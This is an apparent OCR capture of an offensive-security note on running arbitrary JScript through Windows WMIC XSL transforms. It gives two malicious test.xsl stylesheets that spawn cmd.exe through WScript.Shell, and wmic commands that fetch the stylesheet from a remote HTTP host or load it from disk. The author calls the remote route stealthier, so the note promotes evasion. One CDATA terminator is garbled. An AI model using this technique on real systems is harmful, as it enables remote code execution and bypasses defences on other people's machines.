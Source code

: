 **EXTRA WAYS TO EXECUTE ARBIRTRARY JSCRIPT CODE:**

Via XLS transform. Proof of concept to execute an additional cmd.exe:

Content of test.xsl:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe");
    ] ]>
  </ms:script>
</stylesheet>
```

Then execute it with wmic.exe as follows:

```
C:\> wmic process get brief /format:"http://192.168.1.1/test.xsl"
```

**XSL TRANSFORM IN LOCALHOST:**

Although I prefer doing it via HTTP(since is stealthier), you can also perform an XSL transform from localhost(storing the test.xsl on disk) as follows. 

Contents of "test.xsl":

```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd");
	]]> </ms:script>
</stylesheet>
```

Executing "test.xsl":

```
C:\> wmic os get /format:"test.xsl"
```
